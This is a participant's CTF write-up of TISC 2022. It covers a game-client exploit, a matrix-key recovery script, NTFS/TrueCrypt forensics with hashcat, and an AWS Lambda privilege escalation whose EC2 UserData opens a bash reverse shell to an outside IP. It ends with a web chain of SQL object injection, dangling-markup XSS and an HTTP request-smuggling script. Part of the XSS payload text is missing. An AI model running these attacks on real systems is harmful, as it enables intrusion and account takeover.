


# Scoreboard

CSIT 2022 was tough as it was not Jeopardy style and each level would only be revealed after clearing the previous level. This also provided me with the opportunity to work on my weaker categories (Cloud/Web) and I definitely learnt alot from solving the challenges. Looking forward to next year! Final Position: **20/730**


https://www.csit.gov.sg/events/tisc/tisc-2022-summary

# Stage 1: Slay the Dragon


This stage was challenging for me as it was a pwning challenge and the source code given was in python (I'm typically used to  C source code and some vulnerable function for a buffer overflow). 

The aim of the game was to slay the dragon. There were a total of 3 levels:

| Level | Boss   | Damage | HP  |
| ----- | ------ | ------ | --- |
| 1     | Slime  | 1      | 5   |
| 2     | Wolf   | 3      | 30  |
| 3     | Dragon | 50     | 100 |

I started a local instance and was greeted by the following screen upon launching the app:

 

1. Starts a boss battle where the player and boss take turns attacking each other 
   
   - NOTE: The player's base damage is 1 but can be increased to a maximum of 3 after buying a sword
   - There is the option to either attack the boss/heal (use the potion) every round before the boss attacks

2. +5 to gold count, with a 20% chance of encountering a creeper and losing the game

3. Ability to purchase the following items:
   
   1. Sword (+2 Attack, 5 Gold) - Max 1
   
   2. Potion (+10 HP, 2 Gold) - Unlimited

4. Terminates the connection to the server

After playing the game, it was possible to clear levels 1 and 2 normally through buying the sword and potions but impossible to clear level 3 since the dragon hits for 50 HP (Max health = 10HP).

In order to defeat the dragon, we need to better understand how the battle outcome is calculated:

1. Each player command (e.g attack/heal) is logged by the server and appended to a list
   
   - NOTE: An attack by the boss gets appended regardless of the action taken by the player (Heal/Attack)

2. The commands get implemented sequentially with the following results:
   
   - Player HP reaches 0  = Boss wins 
   
   - Boss HP reaches 0  = Player wins

3. At the end of the battle, a validation step occurs where the server looks at all the inputted commands and ensures that it matches the battle outcome

The game vulnerability came about in the way that the server processes the commands in *\core\models\command.py*:


As seen in the highlighted box, instead of a single command, a list of commands can be sent to the server, allowing the boss to be repeatedly attacked before the boss's attack gets appended to the command list and subsequently implemented by the server.

We are given both the Client Code and the Server Code. I spent quite some time reading through and understanding the source code, focusing on the files in the *client* folder since the server files could not be altered. I ended up making changes to 2 Client side files in particular: *\client\gameclient.py* & *\client\event\battleevent.py*

<u>Battleevent.py</u>

| Original Code                                                                     | Modified Code (Commented out a single line)                                       |
| --------------------------------------------------------------------------------- | --------------------------------------------------------------------------------- |
|  |  |

**NOTE: This amendment ensures that the player does not take any damage from the boss during boss battles (I realised after the challenge that this step was rather unnecessary)**

<u>Gameclient.py</u>

| Orginal Code                                                                      | Modified Code (Added if-else statement)                                           |
| --------------------------------------------------------------------------------- | --------------------------------------------------------------------------------- |
|  |  |

**NOTE: This change would ensure that the validation step passes after the battle is over and the sequence of events is checked. It does NOT mean that the boss receives 100 instances of attack when playing the game.**

<u>\server\service\battleservice.py</u>


Here we see that a *BOSS_ATTACK* action is appended every time the player makes an attack, but since we sent 100 instances of *Command.ATTACK*, the *BOSS_ATTACK* will only be appended after the 100 instances and the boss will already be dead. As such, *Command.VALIDATE* will be sent and the match statement will exit:

<u>Code that follows earlier snippet of battleevent.py</u>


<u>**Running the Exploit**</u>

I initially made the mistake of running the provided client file (**client_linux_x64**) against my local server and wondering why my changes were not being updated. I soon realised the error and ran **main.py** in python3.10. I then performed the following steps:

1. Connect to the provided instance

2. Bought a sword to increase my attack damage to 3

3. Fought the boss battles without incurring any damage (Had to fight the dragon 34 times before it died :p)

4. Obtained the flag


`TISC{L3T5_M33T_4G41N_1N_500_Y34R5_96eef57b46a6db572c08eef5f1924bc3}`

NOTE: I recognised after completing the challenge that I could modify the client *battleevent.py* to ensure the boss receives multiple instances of attack in 1 hit and that would have instantly KOed the boss. 

| Original Code                                                                     | Modified Code                                                                     |
| --------------------------------------------------------------------------------- | --------------------------------------------------------------------------------- |
|  |  |

---

# Stage 2: Leaky Matrices


For this stage, we were presented with an "insecure" authentication protocol where both the client and server are able to challenge each other using a shared *secret key* (8x8 matrix). It works in the following manner: 

1. Client sends a set of 1x8 matrix of binary digits which will be multiplied with the *secret key* of the server and the response (1x8 matrix) will be provided. This is repeated **8** times.

2. The process is then repeated at the server side, where the server then challenges the client by sending its own 1x8 matrix of binary digits which the client would need to multiply by its *secret key*. The client then returns a 1x8 matrix as the response and the client would need to pass **8** challenges to obtain the flag.

<u>Problem with the authentication protocol</u>

The user is able to obtain each row of the shared *secret key* by setting the value of the index to '1' while keeping all the other indexes at '0'. Thus after 8 challenges, the user can then obtain the full *secret key* and subsequently use that key to respond to challenges from the server.

A python script is then crafted to perform the exploit:

```python
secret = []
secret_split = []
p = remote('chal00bq3ouweqtzva9xcobep6spl5m75fucey.ctf.sg', 56765)

for i in range(8):
    p.recvuntil(b'<-- ')
    challenge = b'0' * i + b'1' + b'0' * (7 - i)
    p.sendline(challenge)
    secret.append(p.recvline().split()[-1].decode('utf-8'))

for col in secret:
    secret_split.append(list(col))

# cast as int and transpose     
secret_final = np.array(secret_split).astype(int).transpose()

for i in range(8):
    p.recvuntil(b'--> ')
    challenge = strtovec(p.recvline().split()[-1].decode('utf-8'))
    result = (secret_final @ challenge) & 1
    p.sendline(vectostr(result))
p.interactive()
```

I ran the python script above and obtained the flag:


`TISC{d0N7_R0lL_Ur_0wN_cRyp70_7a25ee4d777cc6e9}`

---

# Stage 3: PATIENT0

## Part 1


<u>Some Screenshots I took for myself to better understand the NTFS File System:</u>


Sector: **512** bytes for HDD (**2048** for CD/DVD-ROMS )

Track: **63** sectors [offset 0x18]

Cluster: **1-8** sectors (Depends on partition size)

- Smaller partition = fewer sectors/cluster

- See offset 0D for sectors/cluster

[NTFS - Wikipedia](https://en.wikipedia.org/wiki/NTFS)

## Part 2


### Solving the Clues

In order to obtain the clues, I mounted PATIENT0 using FTK Imager and browsed its contents.

**Clue1:**


Clue 1 was found in a file called *broken.pdf*  and contained the following:


The BPB in this case refers to the **BPB (Bios Parameter Block**), which starts at offset 0xB and is used for describing the physical layout of a data storage volume.


Given that the extended BPB started at offset 0x24, those 4 bytes looked incorrect and so I extracted them and sure enough they were the password: **f76635ab**

**Clue2:**



Clue2 was a PNG file (message.png) with the following input words that were base64 encoded.


From FTK, I saw the there was an <u>alternate data stream</u> in the same PNG file with a file called $RAND.

**Clue3:**

The first few bytes of \$RAND contained clue 3

`3. Are these True random bytes for Cryptology?`


I'll admit I spent a long time on this clue thinking that it was related to randomness but in the end the clue was in the accompanying hint that was a logo of **TrueCrypt**.

**Clue4:**

Clue 4 was found at the Last few bytes of \$RAND


`4. If you need a password, the original reading of the BPB was actually Checked and ReChecked 32 times!`

Looking only at the caps, the algorithm was **CRC32**.

## Putting Everything Together

After knowing the password of **f76635ab** and the **TrueCrypt** encryption software, I extracted the remaining bytes from \$RAND and used **TrueCrypt** to mount the container , revealing a file called **outer.jpg**:


Guessing that the password was some permutation of the word 'collision' and that the algorithm used was **CRC32**, I ran hashcat in brute-force mode with several masks for common character substitutions for the middle characters (o,i,l,s).

```bash
hashcat -a 3 -m 11500 f76635ab:00000000 -1 o0O -2 li1IL -3 sS$ "c?1?2?2?2?3?2?1n
```

`NOTE: 8 0s had to be appended to the password to show it was unsalted`

I was able to quickly obtain the password of **c01lis1on**. Using this password again on the same encrypted container revealed a *flag.ppsm* file.


I renamed the ppsm file as a zip file and found the audio file in *\flag\ppt\media\media1.mp3*, where I proceeded to hash it and submitted the flag.

`TISC{f9fc54d767edc937fc24f7827bf91cfe}`

---

# Stage 4B: CloudyNekos


## Obtaining AWS Access/Secret Keys

Accessing the provided website, we see a webpage filled with cats and no clickable links. Examining the source code, we come across interesting comments:


Looking at the **TODO** portion, I see that the absence of a custom header referrer. This likely meant that I could create my own cloudfront instance on AWS with the origin as *palindromecloudynekos* and query that URI, which I did and received the following response: 


I then saw an interesting endpoint at **/api/Screenshots.txt** and queried that to see the following: 


`NOTE: The tagging of the EC2 instance was an important point that will be addressed later`

The passcode ('*cats_rule_the_world*') was found earlier in the website source code. I then used [Postman](https://www.postman.com/) to add an authorization header with the appropriate key-value pair and successfully retrieved the login creds.


## Exploiting privileges of provided user

This part was also challenging as it entirely involved the AWS CLI, which I was using for the first time. I ran **aws configure** to set my access & secret keys (provided above) and soon realised that I was receiving errors of the following:

`User: <arn> is not authorized to perform: <action> because no identity-based policy allows the <action> action`

This error basically means that  while my user was not denied certain permissions, it also was not given explicit permissions to perform certain actions and thus the access was denied. Since I was not allowed to change the permissions of the user I was given, I used the IAM Flaws tool ([GitHub - nikhil1232/IAM-Flaws: AWS IAM Security Toolkit: CIS Benchmarks | Enumeration | Privilege Escalation](https://github.com/nikhil1232/IAM-Flaws)) to enumerate the permissions for the provided user, with the results as shown below:


Hmm, really not a long list of available commands I could work with, I needed to somehow obtain the **ec2:CreateInstances** permission in order to create an EC2 instance and access it (Guessing from the challenge description)

I explored other AWS tools and soon found [Pacu](https://github.com/RhinoSecurityLabs/pacu), a python-based modular tool designed for offensive operations against a cloud environment. After providing my creds and running the module *iam__privesc_scan*, it suggested that I could perform privilege escalation using the method *PassExisitingRoleToNewLambdaThenInvoke*. 


<u>Details of the exploit:</u>



Pacu also proceeded to automatically perform the exploit, but did not work successfully as the new function had to be of the following form: **\${aws:username}-\*** and I had some difficulties manually changing the Pacu module to <u>prepend the aws username to the function name</u>.

In order to build the syntax to manually created the function, I needed to obtain more information through the following steps: 

1. Found out what was my current user-name with **aws sts get-caller-identity**
   
   

2. Obtain user policy arn with **aws iam list-attached-user-policies --user-name \<user-name>**
   
   

3. Obtain policy version details with **aws iam get-policy --policy-arn \<policy-arn>**
   
   

4. Obtained details about the policy with the specific version with **aws iam get-policy-version --policy-arn \<policy-arn> --version-id \<version-id>**
   
   

Given that the **lambda_agent_development_role** would be responsible for running the lambda function, I needed to enumerate its privileges as well and noted the following: 

<u>Policy details for the policy attached to the lambda_agent_development_role</u>


The **lambda_agent_development_role** was able to both create EC2 Instances as well as run a lambda function named '*cat-service*'. In order to launch any lambda function, I needed to perform the following: 

| Order | Command                                                                                                                                                                                                                                                                                      | Description                                                          |
| ----- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| #1    | aws lambda create-function **--role** arn:aws:iam::051751498533:role/lambda_agent_development_role **--function-name** user-68b75f7095ee4391aebca7196f537cfb-\<function-name> **--zip-file** file://\<Name of zip file> **--runtime** python3.8 **--handler** lambda_function.lambda_handler | Creates the lambda function with the appropriate runtime and handler |
| #2    | aws lambda invoke **--function-name** user-68b75f7095ee4391aebca7196f537cfb-\<function-name> run_instance_response.txt                                                                                                                                                                       | Executes the lambda function                                         |

I first ran the *cat-service* function with the following lambda_function.py and zipped it to zip file named *cat-service.zip*.

<u>Contents of the lambda_function.py</u>


After invoking the function, the following file was downloaded: 


Looks like I'm on the right track! I just needed to fill in this python file to create the EC2 instance and then I will be able to access it. I also noted that I had no option to perform **EC2:ListInstances**, thus I had no access to the name of the created EC2 instance and thus needed to find another way to access it.

Based on the provided template, I prepared a new function called *run_instance* and zipped it. 

Inside my **run_instance.zip**, I placed all the dependencies as well as the actual python file that will be invoked by AWS Lambda (lambda_function.zip):


I proceeded to fill up the details and ended up with the following script:

```python
import boto3

def lambda_handler(event, context):

    # Work in Progress: Requires help from Agents! 

    ec2 = boto3.resource('ec2')

    instances = ec2.create_instances(
        ImageId="ami-013586750d303f89d", #Amazon Linux Instance
        MinCount=1,
        MaxCount=1,
        InstanceType="t2.micro",
        SubnetId="subnet-0aa6ecdf900166741", #aws iam describe-subnets
        IamInstanceProfile={'Name': 'ec2_agent_instance_profile'}, #aws iam list-instance-profiles
        TagSpecifications=[ #Earlier mentioned tagging
                {
            'ResourceType':'instance',
            'Tags': [
                {
                    'Key': 'agent',
                    'Value': 'user-68b75f7095ee4391aebca7196f537cfb'
                },
            ]
        },
        ],
        UserData="""
        #!/bin/bash
        /bin/bash -i >& /dev/tcp/18.136.148.247/443 0>&1 
        """ #Reverse shell to my listening AWS Instance
    )
```

1. **Amazon Linux** Instance was chosen for its simplicity and I obtained the ImageId from the AWS console page
   
   - NOTE: Amazon Linux has 2 different ImageIds and I had to switch to the other ImageId after wrongly started up too many instances and hit the limit of the account :p

2. *SubnetID* was taken from describing the subnets:


3. *IAMInstanceProfile* was taken from listing the available instance profiles

4. EC2 instance was tagged according to the specification described earlier at the start 

5. *UserData* field contained a script that would be run upon startup of the EC2 instance, and contains a reverse shell back to my own AWS Instance listening on port 443 

## Accessing EC2 Instance

After executing the lambda function and confirming that my AWS instance achieved a shell on the EC2 instance, I enumerated the permissions of the EC2-Agent to see my capabilities: 

<u>Permissions of EC2-Agent</u>


Noting that the EC2-Agent was able to perform actions on dynamodb, I then proceeded to list the tables in dynamodb and obtained the flag in the table **flag-db** :


`TISC{iT3_N0t_s0_C1oUdy}`

---

# Stage 5B: Palindrome's Secret


## Bypass Login Page

Navigating to the provided webpage brings me to a login page which needs to be bypassed. After exhausting all standard SQL Injection queries, I note the use of parameterised queries that renders most standard queries ineffective.

```javascript
const rows = await query(`SELECT * FROM users WHERE email = ? AND password = ?`, [email, password])
```

After lots of googling, I found a recent exploit on a super obscure mySQL [nodeJS injection](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) that proved to be the solution. The exploit works because of a lack of input sanitisation, non-enforcement of a *string* input would mean that an *object* can be passed instead and result in the following statement:

`SELECT * FROM users WHERE email = email = 1 AND password = password = 1`

This simplifies to `SELECT * FROM users WHERE 1 = 1 AND 1 = 1` , granting us access to the system.


## Exploring other Functions


After bypassing the login portal, we are presented with this homepage. There are 3 pages of interest: 

1. Obtain Token (/token)

2. Token Verification (/verify)

3. Report Issue (/do-report)

### Obtain Token

`Purpose of this endpoint: Obtain token/View token if user already possesses a token` 

The obtain token form is vulnerable to a **stored XSS** attack, where instead of typing in my username I  can input a script that will be subsequently retrieved from the /verify endpoint when I search up my token value. 

```javascript
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none';
```

Looking at the content security policy, the normal *\<script\>* cannot be used and I need to use an image source tag (*\*) to perform the XSS. I initially struggled with finding out how to retrieve the DOM element and send it to my webhook. 

After doing some research and taking into account that the provided script will be executed *twice*, I found a link on [Dangling markup injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) that would be able to retrieve the value of the token. This involves not closing the *src* attribute, leaving it '*dangling*' and causing the browser to URL-encode all input until it encounters a termination single quotation mark. This allows us to <u>obtain the value of the admin token since it would be considered part of the URL</u>.

I also noted the need to close off the opened tag with a " and add a query parameter (?a=) since the result has spaces in between

- **">Exploit.py</u>

```python
import sys

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Content-Type: application/json\r\n" +
    b"Cookie: connect.sid=s%3A0_BrP66Wh55vai4ZMx1go_oPo2pUI8XD.fVIOJUGfiLRA%2BrgXEabvjgwPuCwBCBYTDRnO2UkXAlE\r\n" + # Change everytime there is a new login
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    b"42\r\n" + # Chunk extension length in hex
    b"{\"url\":\"http://localhost/verify?=token=TISC{3:h:3:8:7:7:4:0:4:l}\"}\r\n" + #Input the provided token
    b"0\r\n" +
    b"\r\n"
)

def h(n):
    return hex(n)[2:].encode()

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /index HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Cookie: connect.sid=s%3A0_BrP66Wh55vai4ZMx1go_oPo2pUI8XD.fVIOJUGfiLRA%2BrgXEabvjgwPuCwBCBYTDRnO2UkXAlE\r\n" +
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)
```

## Piecing together the exploit

The steps for the exploit are as follows: 

1. Login to the page using the **nodeJS injection**
2. Take note of the cookie's *connect.sid* value and make amends to exploit.py
3. Navigate to /token and input the **XSS** script that also performs **dangling markup injection**
4. Take note of the value of the token given and make amends to exploit.py
5. Execute *exploit.py* to perform **HTTP Smuggling**
6. Retrieve the admin token from the webhook 


`TISC{1:3:3:7:l:3:4:k:1:n}`

---
